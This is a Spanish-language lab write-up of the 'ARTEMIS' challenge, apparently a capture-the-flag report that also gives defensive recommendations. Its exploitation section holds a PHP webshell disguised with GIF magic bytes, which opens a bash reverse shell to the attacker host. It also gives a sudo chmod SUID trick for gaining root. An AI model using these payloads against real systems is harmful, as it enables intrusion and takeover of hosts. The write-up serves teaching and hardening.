








<h1 align="center">[Writeup] ARTEMIS - Reporte de Vulnerabilidad</h1>

**Fecha:** 20 de Mayo, 2026

**Severidad:** Crítica 🔴

**Objetivo:** `172.17.0.2`

**Plataforma**: WhoAmI-Labs.com

---

# Descripción
"Laboratorio pedagógico de SUID & Sudo (Nivel Easy). Diseñado para auditar vectores prácticos en entornos reales. El reto involucra técnicas de: ARTEMIS, requiriendo obtener acceso inicial y comprometer el sistema."

---

## 1. 🔍 Fase de Reconocimiento

El objetivo inicial fue identificar la superficie de ataque del objetivo (**172.17.0.2**).
### Escaneo de Puertos y Servicios

Se utilizó **Nmap** para descubrir puertos abiertos y las versiones de software corriendo en ellos.

```
nmap -sV -sC -p- --min-rate 1000 172.17.0.2 -oN scan_artemis.txt
```

**Resultado:**

- **80/tcp:** Apache httpd 2.4.41 (Servicio Web).
- **2222/tcp:** OpenSSH 8.2p1 (SSH en puerto no estándar).


## 2. 📂 Enumeración Web

Al detectar un servicio web, se procedió a identificar directorios y archivos ocultos que pudieran servir como vectores de entrada.
### Fuzzing de Directorios

Se utilizó **Gobuster** con un diccionario común y extensiones específicas.

```
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirb/common.txt -x php,txt,html
```

**Hallazgos clave:**

- `/upload.php`: Panel para subir archivos.
- `/gallery.php`: Página que lista o procesa archivos subidos.    
- `/uploads/`: Directorio de almacenamiento de archivos.


## 3. 🛠️ Fase de Explotación (RCE)

Se identificó una vulnerabilidad de **Arbitrary File Upload** (Subida de archivos arbitrarios) en `upload.php`.

### Bypass de Filtros

El servidor validaba tanto la extensión como el **MIME type** (solo permitía `image/gif`). Para evadir esto, se realizaron las siguientes acciones:

1. Se creó una **WebShell** en PHP llamada `shell.php.gif`.
2. Se añadieron los **Magic Bytes** de un GIF (`GIF89a`) al inicio del archivo para engañar al inspector del servidor.

**Comando del payload:**

```
GIF89a
<?php system("bash -c 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1'"); ?>
```
***Guardar como : [Archivo].php.gif**

Ejecución de Reverse Shell:

Una vez subido, el servidor renombró el archivo (ej: artemis[random].gif). 


**Prestar atencion a: 
Ubicacion: Uploads/artemis_random.gif**

*Esa es la ruta donde se debe ir para ejecutar el payload.*

Al acceder a él mediante la vulnerabilidad de inclusión/ejecución, se obtuvo una conexión inversa hacia nuestra máquina atacante:

```
nc -lvnp 4444
```


## 4. ⚡ Escalada de Privilegios

Una vez dentro como el usuario `www-data`, se procedió a buscar debilidades en la configuración del sistema para elevar privilegios a **root**.

### Enumeración de Sudo

El comando `sudo -l` reveló una configuración crítica:

```
User www-data may run the following commands on artemis:
  (ALL) NOPASSWD: /bin/chmod
```


### Explotación de Chmod (SUID Hijacking)

Dado que `chmod` permite cambiar permisos de cualquier archivo como root, se optó por asignar el bit **SUID** a la propia `/bin/bash` para obtener una shell persistente con máximos privilegios.

```
sudo /bin/chmod +s /bin/bash
/bin/bash -p
```

## 5. 🏆 Post-Explotación

Con acceso total como **root**, se procedió a la lectura de la flag final del laboratorio.


## 🛡️ 6. Recomendaciones de Mitigación

Para prevenir este tipo de intrusiones en el futuro, se recomienda implementar las siguientes medidas de seguridad:

### A. Asegurar la Subida de Archivos (File Upload)

El servidor no debe confiar únicamente en la extensión o en el MIME type enviado por el usuario, ya que ambos son fácilmente manipulables.

- **Renombrado Estricto:** Evitar mantener partes del nombre original. El servidor debe generar un nombre completamente aleatorio y asignar una extensión fija (ej. `.jpg`) basada en la verificación real del contenido.
- **Validación de Contenido:** Utilizar librerías de procesamiento de imágenes (como GD o ImageMagick) para re-procesar la imagen subida. Esto destruye cualquier código PHP oculto en los metadatos o al final del archivo.
- **Directorio Sin Ejecución:** Configurar el directorio `/uploads` para que no tenga permisos de ejecución. En Apache, esto se logra con:

```
<Directory "/var/www/html/uploads">
    php_admin_value engine off
</Directory>
```

### B. Prevención de LFI (Local File Inclusion)

El archivo `gallery.php` parece procesar rutas de archivos de forma insegura.

- **Lista Blanca (Allowlist):** En lugar de aceptar cualquier nombre de archivo, el sistema solo debe permitir archivos que existan en la base de datos de la aplicación.    
- **Saneamiento de Rutas:** Implementar filtros que eliminen secuencias de salto de directorio como `../` o `..\`.
### C. Hardening de Sudoers (Principio de Menor Privilegio)

El error más crítico de configuración fue permitir que un usuario de bajos privilegios (`www-data`) ejecutara un binario potente como `chmod` con permisos de root.

- **Restricción de Comandos:** Nunca se debe permitir el uso de `chmod`, `chown`, o editores de texto con `sudo` sin contraseña a usuarios de servicios web.
- **Uso de Scripts Específicos:** Si `www-data` necesita cambiar permisos de un archivo específico, es mejor crear un script pequeño que haga solo esa tarea y darle permisos de sudo a ese script, no al binario general.
### D. Seguridad en SSH

- **Deshabilitar Root Login:** Asegurarse de que el acceso directo como root por SSH esté desactivado.
- **Uso de Llaves:** Cambiar la autenticación por contraseña por llaves SSH (Public Key Authentication) para evitar ataques de fuerza bruta en el puerto `2222`.

